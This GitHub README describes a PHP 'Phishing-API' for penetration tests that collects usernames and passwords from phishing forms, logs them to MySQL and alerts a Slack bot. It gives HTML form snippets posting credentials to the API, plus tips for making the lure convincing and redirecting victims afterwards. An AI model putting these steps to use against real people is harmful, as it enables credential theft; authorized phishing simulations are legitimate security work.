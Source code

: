 # Phishing-API
Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot


To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP in a web service

3) Configure dbconfig.php

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (More Believable for Phishing)



To Use : 

1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the "username" and "password" fields are named as such

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Site)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials


![Notification to Slack Channel](https://i.imgur.com/BIYQWry.jpg)

                  
            
![View Captured Credentials via Web](https://i.imgur.com/OmEwX5Z.jpg)
